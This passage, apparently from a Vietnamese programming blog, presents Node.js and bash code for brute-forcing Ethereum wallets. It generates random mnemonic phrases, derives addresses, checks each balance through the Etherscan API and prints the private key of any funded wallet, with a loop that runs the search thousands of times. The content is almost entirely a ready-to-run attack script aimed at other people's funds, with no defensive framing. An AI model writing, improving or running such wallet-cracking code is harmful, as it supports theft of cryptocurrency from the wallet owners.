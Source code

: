 ```js
  } catch (err) {
    console.log(err);
  }
}

bruteForce();
```

Để tự động thì chúng ta viết thêm 1 file bash để chạy.

```bash
#!/bin/bash
for value in {1..10000}
do
node index.js
done
```

### Dùng API của EtherScan

Để dùng được API của Etherscan, các bạn phải đăng ký tài khoản và tạo 1 `API_KEY` để để có thể gọi được. API của Etherscan cũng bị giới hạn, nếu cần nâng cấp cũng phải trả thêm phí.

Các bạn có thể tham khảo các đầu API của Etherscan ở [đây](https://etherscan.io/apis)

```js
const { EthHdWallet } = require('eth-hd-wallet');
const bip39 = require('bip39');
const axios = require('axios');

async function bruteForce() {
  try {
    let mnemonic = bip39.generateMnemonic();
    let wallet = EthHdWallet.fromMnemonic(mnemonic);
    let [address] = wallet.generateAddresses(1);

    const apiKey = 'YOUR_API_KEY';

    let response = await axios.get(
      `https://api.etherscan.io/api?module=account&action=balance&address=${address}&tag=latest&apikey=${apiKey}`
    );

    let balance = response.data.result;
    if (balance > 0) {
      let privateKey = wallet.getPrivateKey(address);
      privateKey = privateKey.toString('hex');
      console.log({ privateKey });
      console.log({ balance });
    }
  } catch (err) {
    console.log(err);
  }
}

bruteForce();
```
